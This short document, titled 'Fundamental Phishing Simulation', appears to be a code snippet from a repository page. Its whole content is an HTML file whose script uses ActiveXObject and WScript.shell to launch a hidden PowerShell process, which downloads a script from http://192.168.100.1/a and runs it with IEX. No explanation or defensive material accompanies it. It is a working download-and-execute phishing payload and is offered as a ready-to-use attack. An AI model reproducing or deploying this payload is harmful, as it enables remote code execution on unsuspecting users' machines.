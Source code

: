 Fundamental Phishing Simulation


```
<html>
<script>	
    	var Data = "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.100.1/a'));\"";
	var Value = new ActiveXObject("WScript.shell");
	Value.run(Data );
</script>
</html>

```

